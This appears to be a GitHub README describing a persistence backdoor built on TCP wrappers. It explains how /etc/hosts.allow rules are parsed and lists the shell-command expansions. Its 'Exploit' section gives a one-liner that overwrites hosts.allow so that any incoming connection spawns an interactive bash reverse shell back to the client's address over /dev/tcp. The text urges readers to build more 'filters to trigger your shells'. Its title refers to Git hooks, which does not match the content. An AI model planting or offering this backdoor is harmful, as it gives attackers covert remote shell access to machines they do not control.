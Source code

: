 Git hooks "backdoor"
======================

**How it works**

When a client request is received by a TCP wrapped service, it takes the following basic steps:

1. References /etc/hosts.allow. — The TCP wrapped service sequentially parses the /etc/hosts.allow file and applies the first rule specified for that service. If it finds a matching rule, it allows the connection. If not, it moves on to step 2.

2. References /etc/hosts.deny. — The TCP wrapped service sequentially parses the /etc/hosts.deny file. If it finds a matching rule is denies the connection. If not, access to the service is granted.


**How it is parsed**

ACCESS CONTROL RULES

Each access control file consists of zero or more lines of text.  These lines are processed in order of appearance. The search terminates when a match is found.

A newline character is ignored when it is preceded by a backslash character. This permits you to break up long lines so that they are easier to edit.

Blank lines or lines that begin with a `#´ character are ignored. This permits you to insert comments and whitespace so that the tables are easier to read.

All other lines should satisfy the following format, things between [] being optional:


**Syntax**
```shell-session
<daemon list>: <client list> [: <option>: <option>: ...]
```
**Translating...**

```shell-session
<daemon_list>: <client list> [: <shell_command> ]
```

**Video**

<a href="http://www.youtube.com/watch?feature=player_embedded&v=rCVmWUf8x1E" target="_blank"><img src="http://img.youtube.com/vi/rCVmWUf8x1E/0.jpg" alt="Profit with Git hooks!" width="480" height="360" border="10" /></a>

**Exploit**
```shell-session

echo 'ALL: ALL: spawn (bash -c "/bin/bash -i >& /dev/tcp/"%a"/443 0>&1") & :allow' > /etc/hosts.allow

```

**Understand expansions...**

```shell-session
% EXPANSIONS
       The following expansions are available within shell commands:

       %a (%A)
              The client (server) host address.

       %c     Client information: user@host, user@address, a host name, or just an address, depending on how much information is available.

       %d     The daemon process name (argv[0] value).

       %h (%H)
              The client (server) host name or address, if the host name is unavailable.

       %n (%N)
              The client (server) host name (or "unknown" or "paranoid").

       %r (%R)
              The clients (servers) port number (or "0").

       %p     The daemon process id.

       %s     Server information: daemon@host, daemon@address, or just a daemon name, depending on how much information is available.

       %u     The client user name (or "unknown").

       %%     Expands to a single `%´ character.

       Characters in % expansions that may confuse the shell are replaced by underscores.
```

Hey! You can use your imagination now and take advantage of EXPANSIONS and create more complex filters to trigger your shells! Keep evolving my friend!

